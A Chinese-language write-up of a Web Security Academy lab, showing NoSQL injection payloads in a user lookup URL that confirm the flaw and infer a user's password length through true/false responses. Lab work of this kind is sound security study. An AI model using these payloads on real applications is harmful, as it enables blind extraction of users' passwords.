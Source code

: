 所以这里就尝试判断注入是否存在playload：

[https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener](https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener "https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener")

![](assets/1706959875-35e5a2ae2f03b3e5caabbe938e156b11.png)

[https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener'&& '1'=\\='1](https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener%27&&%20%271%27=\=%271 "https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener'&& '1'=\='1")

![](assets/1706959875-55f52332ae3936456c58210215c3b08b.png)

正常，所以判断是有注入的，那么这里如何获取数据呢？

尽管题目给了admin的账户名，但是对于实战当中我们是没办法知道用户名的，所以我还是以winter这个account做例子 playload： [https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener' && this.password.length < 30 || 'a'='b](https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener%27%20%20&&%20this.password.length%20%3C%2030%20||%20%27a%27=%27b "https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener'  && this.password.length < 30 || 'a'='b")

![](assets/1706959875-ced11b5b184a148610adfbc3ed28532e.png) [https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener' && this.password.length < 0 || 'a'='b](https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener%27%20%20&&%20this.password.length%20%3C%200%20||%20%27a%27=%27b "https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener'  && this.password.length < 0 || 'a'='b")

![](assets/1706959875-4db9a7f15268671695cbca7e330621df.png)

所以这里看见是可以对长度进行判断的，比如我们的密码是`peter`也就是5位那我们构造下length =\\=5也是为真的。

